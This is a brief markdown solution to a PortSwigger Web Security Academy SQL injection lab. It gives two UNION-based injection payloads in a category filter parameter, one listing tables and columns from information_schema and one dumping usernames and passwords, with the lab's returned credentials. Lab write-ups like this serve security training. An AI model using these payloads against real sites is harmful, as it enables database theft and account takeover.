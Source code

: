# Lab

https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

## Payload

```sql
/filter?category=Gifts' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns --
```

### Results

```
users_jzksxl, password_qmsqwk
users_jzksxl, username_haoeyz
```

```sql
/filter?category=Gifts' UNION SELECT username_haoeyz, password_qmsqwk FROM users_jzksxl --
```

### Results

```
administrator, dvu67pk4ih6oeje4npni
carlos, oxalz77c03az7iwz874g
wiener, fsonrxzkk264vrcuel4h
```